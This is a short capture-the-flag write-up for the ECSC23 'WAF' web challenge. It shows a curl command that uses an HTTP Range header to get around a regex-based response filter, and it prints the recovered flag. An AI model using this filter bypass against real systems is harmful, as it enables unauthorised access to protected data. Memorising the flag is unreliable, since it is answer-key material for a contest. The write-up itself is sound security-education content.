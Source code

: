 # [web - WAF](https://hack.cert.pl/challenge/waf)

Since the regex pattern is `ecsc23{\\w+}` we can simply set bytes range to remove known part of the flag:
```bash
curl "https://waf.ecsc23.hack.cert.pl/flag" -H "range: bytes=6-45"

# {waf_stands_for_very_accessible_flag}
```

### Flag
```
ecsc23{waf_stands_for_very_accessible_flag}
```
